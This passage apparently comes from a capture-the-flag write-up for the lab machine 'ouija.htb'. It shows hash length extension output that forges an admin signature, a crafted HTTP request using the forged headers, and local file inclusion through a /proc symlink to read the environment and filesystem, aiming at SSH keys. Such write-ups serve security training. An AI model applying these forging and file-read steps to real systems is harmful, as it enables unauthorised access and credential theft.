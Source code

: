 ```bash
Type: sha256
Secret length: 5
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f748000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000683a3a61646d696e3a54727565

Type: sha256
Secret length: 6
New signature: 14be2f4a24f876a07a5570cc2567e18671b15e0e005ed92f10089533c1830c0b
New string: 626f74313a626f7480000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000703a3a61646d696e3a54727565
[...]
```
I tried them in a request like that (the identification string need to be base64 encoded):
```bash
GET /file/get?file=init.sh HTTP/1.1
host: ouija.htb:3000
ihash: 14be2f4a24f8[REDACTED]089533c1830c0b
identification: NjI2Zjc0MzEzYTY[REDACTED]TZlM2E1NDcyNzU2NQ==
```
The request is succesfull, so we can try to get some more interesting files.<br>
In fact if we read the init.sh we can see that they are creating a soft link:
```bash
ln -s /proc .config/bin/process_informations
```
by knowing this we can get the content of the environment file of nodejs with this request:
    
![get env](./pic/get_env.png)
    
from this post [here](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/) we can see how to leverage lfi via `/proc/<pid>/` or `/proc/status`.<br>
Now we can access all the filesystem from /proc/self/root/  <-- from here we have our root folder.<br>
By knowing the user we can try to search her ssh keys.<br>
    